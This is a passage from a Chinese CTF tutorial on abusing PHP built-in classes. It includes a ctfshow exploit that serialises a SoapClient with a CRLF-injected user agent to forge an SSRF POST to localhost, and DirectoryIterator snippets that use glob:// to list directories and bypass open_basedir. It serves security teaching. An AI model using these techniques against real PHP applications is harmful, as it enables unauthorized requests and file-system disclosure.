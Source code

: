 #### ctfshow上的例题：

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff); //获取xff头


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```

### 3、目录遍历相关利用内置类(使用可遍历目录类绕过 open_basedir())

注：绕过open_basedir()可以看看https://blog.csdn.net/Xxy605/article/details/120221577

#### 3.1. DirectoryIterator 类   

**DirectoryIterator类**提供了一个简单的接口来查看文件系统目录的内容。

**DirectoryIterator::__toString** 获取字符串形式的文件名 （**PHP 5,7,8**）, 会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 __toString() 方法，输出指定目录里面经过排序之后的第一个文件名  

```php
<?php
$dir=new DirectoryIterator("/");
echo $dir;
```

 使用此内置类的__toString方法结合glob://或file://协议，即可实现目录遍历  

```php
<?php
$a = new DirectoryIterator("glob:///*");
//glob:// 协议用来查找匹配的文件路径模式
foreach ($a as $b){
    echo $b.'<br>';
}
```
